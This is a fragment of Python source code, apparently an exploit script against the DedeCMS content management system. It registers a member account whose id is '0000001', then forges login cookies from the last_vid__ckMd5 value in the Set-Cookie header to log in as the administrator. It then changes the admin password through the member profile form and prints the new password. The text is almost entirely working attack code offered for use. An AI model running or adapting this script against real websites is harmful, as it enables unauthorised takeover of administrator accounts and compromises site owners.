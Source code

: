         vdcode = raw_input("Please enter the registration verification code : ")

        userid = '0000001'
        uname = '0000001'
        userpwd = '123456'


        headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0)",
                   "Content-Type": "application/x-www-form-urlencoded"}
        data = "dopost=regbase&step=1&mtype=%E4%B8%AA%E4%BA%BA&mtype=%E4%B8%AA%E4%BA%BA&userid={userid}&uname={uname}&userpwd={userpwd}&userpwdok={userpwd}&email=0000001%400000001.com&safequestion=0&safeanswer=&sex=%E7%94%B7&vdcode={vdcode}&agree=".format(
            userid=userid, uname=uname, userpwd=userpwd, vdcode=vdcode)
        rs = s.post(dede_host + '/member/reg_new.php', data=data, headers=headers)
        if "验证码错误" in rs.content:
            exit("Verification code error, account registration failed")
        elif '注册成功' in rs.content:
            print 'registration success !!'

        rs = s.get(dede_host + "/member/index.php?uid={userid}".format(userid=userid))
        if "资料尚未通过审核" in rs.content:
            exit("User information has not been approved !!!")  # 会员使用权限开通状态(-10 邮件验证 -1 手工审核, 0 没限制)：
        searchObj = re.search(r'last_vid__ckMd5=(.*?);', rs.headers['Set-Cookie'], re.M | re.I)
        last_vid__ckMd5 = searchObj.group(1)
        s.cookies['DedeUserID'] = userid
        s.cookies['DedeUserID__ckMd5'] = last_vid__ckMd5
        rs = s.get(dede_host + "/member/index.php")
        if "class=\"userName\">admin</a>" in rs.text:
            print "Administrator login successful !!"

        headers = {"Referer": dede_host + "member/edit_baseinfo.php"}
        rs = s.get(dede_host + 'include/vdimgck.php').content
        file = open('2.jpg', "wb")
        file.write(rs)
        file.close()

        vdcode = raw_input("Please enter the verification code : ")

        data = {"dopost": "save", "uname": "admin", "oldpwd": oldpwd, "userpwd": newpwd, "userpwdok": newpwd,
                "safequestion": "0", "newsafequestion": "0", "sex": "男", "email": "admin@admin.com", "vdcode": vdcode}
        rs = s.post(dede_host + '/member/edit_baseinfo.php', data=data)
        if "成功更新你的基本资料" in  rs.content:
           print "Administrator password modified successfully !!"
           print "The new administrator password is : " + newpwd
        else:
            print "attack fail"

